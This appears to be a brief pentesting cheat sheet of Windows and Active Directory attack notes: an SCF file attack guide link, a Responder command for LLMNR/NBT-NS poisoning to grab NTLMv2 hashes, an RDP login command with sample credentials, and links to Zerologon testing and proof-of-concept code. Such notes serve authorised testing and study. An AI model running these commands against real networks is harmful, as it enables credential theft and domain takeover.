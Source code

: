 ## SCF attack: malicious file that trigger multicats request for another computers. Responder needed.
**Attack guide**: [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/].
## LLMNR & NBT-NS POISONING AND CREDENTIAL ACCESS USING RESPONDER
**Run responder/ NTLMv2 hash grabbing**: responder -I [interface] -wF -v
## CONNECT TO RDP
xfreerdp /u:user /p:password321 /cert:ignore /v:MACHINE_IP
##Zero Logon
**Testing script https://github.com/SecuraBV/CVE-2020-1472    
**PoC https://github.com/dirkjanm/CVE-2020-1472    

